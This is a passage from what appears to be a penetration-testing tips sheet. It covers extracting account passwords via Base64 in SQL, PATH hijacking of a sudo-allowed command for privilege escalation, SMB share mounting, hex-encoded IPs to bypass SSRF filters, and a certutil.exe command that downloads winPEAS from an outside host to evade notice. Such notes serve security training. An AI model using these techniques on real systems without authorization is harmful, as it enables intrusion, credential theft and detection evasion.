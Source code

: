 #### Special Characters in SQL

If you run into special characters in a database that you need to extract, convert into Base64 with a command like:
```bash
select TO_BASE64(password) from accounts where id = 1;
```

#### Path Injection

If you have sudo permissions on a file (can be found with 'sudo -l'), and the file uses a command, such as 'gzip', you can modify the environment path in order to get your own file to run as 'gzip'. Simply create a bash file called 'gzip' and insert your current working directory into the first position in the path variable.

#### Mounting SMB Shares

Instead of enumerating Windows shares with smbclient, you can mount shares on your local filesystem and enumerate in a familiar environment.
```bash
sudo mkdir /mnt/data
sudo mount -t cifs //123.123.123.123/Data /mnt/data
```

Note that Windows likes to store some files in UTF-16LE, while Linux likes UTF8. If you run into this problem, you'll need to convert in order to cat the files.

```bash
cat file | iconv -f UTF-16LE -t utf8
```

#### URL Directory Without Slash

Try searching for URL directories without the slash (e.g. 'http://website.com/upload'), and if the url is automatically updated to 'http://website.com/upload/', then there's some sort of logic going on, and the directory probably exists, even if it says "Not Found" or something along those lines.

#### IP Address Blocked

If for whatever reason (such as doing a SSRF) 127.0.0.1 & localhost (or any other IPs) are blocked, you may be able to get around this by representing the IP in hex form, '0x7f000001', in order to bypass this.

#### Version Exposed

When a version for ANYTHING is exposed or uncovered, DO NOT SKIP OVER THIS and search the web for public exploits. This will be a part of your process.

#### Windows' Curl

Stay under the radar and use certutil.exe on Windows to download files from the internet:
```bash
certutil.exe -f -urlcache http://123.123.123.123/winPEASx64.exe winpeas.exe
```

#### Unzipping Files
